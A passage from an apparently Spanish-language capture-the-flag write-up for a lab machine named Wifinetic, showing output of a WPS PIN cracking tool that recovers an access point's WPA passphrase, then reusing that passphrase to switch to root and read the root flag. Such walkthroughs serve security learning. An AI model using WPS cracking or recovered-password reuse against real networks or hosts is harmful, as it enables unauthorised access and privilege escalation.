 ```bash
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 6 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```

Probaremos de acceder con estas nuevas credenciales al usuario `root` y comprobamos que podemos acceder y visualizar la flag de **root.txt**.

```bash
netadmin@wifinetic:~$ su root
Password: 
root@wifinetic:/home/netadmin# cat /root/root.txt
935bf498ebd89********************
```
